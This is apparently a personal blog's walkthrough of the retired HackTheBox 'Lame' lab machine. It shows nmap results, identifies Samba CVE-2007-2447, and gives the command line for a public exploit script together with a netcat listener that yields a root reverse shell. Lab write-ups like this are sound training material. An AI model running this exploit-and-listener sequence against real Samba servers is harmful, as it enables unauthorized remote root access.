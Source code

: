 +++
title = 'HackTheBox - Lame'
date = 2023-09-15T17:03:12+02:00
draft = false
+++

**Lame** is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

# Info


    OS - Linux
    Difficulty - Easy
    Points - /
    Release - 14 Mar, 2017
    IP - 10.10.10.3

# Enumeration

## Nmap Scan

**`nmap -sC -sV -Pn 10.10.10.3`**

```Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-15 17:13 CEST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.055s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  Q5V      Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m33s, deviation: 2h49m44s, median: 31s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-09-15T11:14:12-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

## Service Observation

Here we can't see any open HTTP or HTTPS ports, but what we can see is open ftp, ssh and samba ports, after the research about services and their versions we can see that Samba on port 139 is vulnerable (CVE-2007-2447).

## More about CVE-2007-2447
To exploit this vulnerability, an attacker would send a specially crafted request to the Samba server, taking advantage of the username map script feature. By doing so, they could execute arbitrary code with the privileges of the Samba server process, potentially gaining control over the server.

# Exploitation

To exploit this vulnerability we found we are gonna use publicly available exploit:
https://github.com/amriunix/CVE-2007-2447

First what we are gonna do is install this tool and read the usage commands!

```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

- `RHOST` -- The target address
- `RPORT` -- The target port (TCP : 139)
- `LHOST` -- The listen address
- `LPORT` -- The listen port

In this specific scenario:
**RHOST** = `10.10.10.3`
**RPORT** = `139`
Now we will get the lhost by running the command `ifconfig` 
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet ***10.10.14.5***  netmask 255.255.254.0  destination 10.10.14.5

So in this scenario
**LHOST** = `10.10.14.5`
**LPORT** = (we can choose the port we want, in this case i choose 1234) = `1234`

so the command would be 

```
python usermap_script.py 10.10.10.3 139 10.10.14.5 1234
```

Before running the command we will run *netcat* listener on port **1234** like this:

```
nc -lvnp 1234
```

After running the exploit we will get the *reverse shell* as **root**

![[PoC.png]]




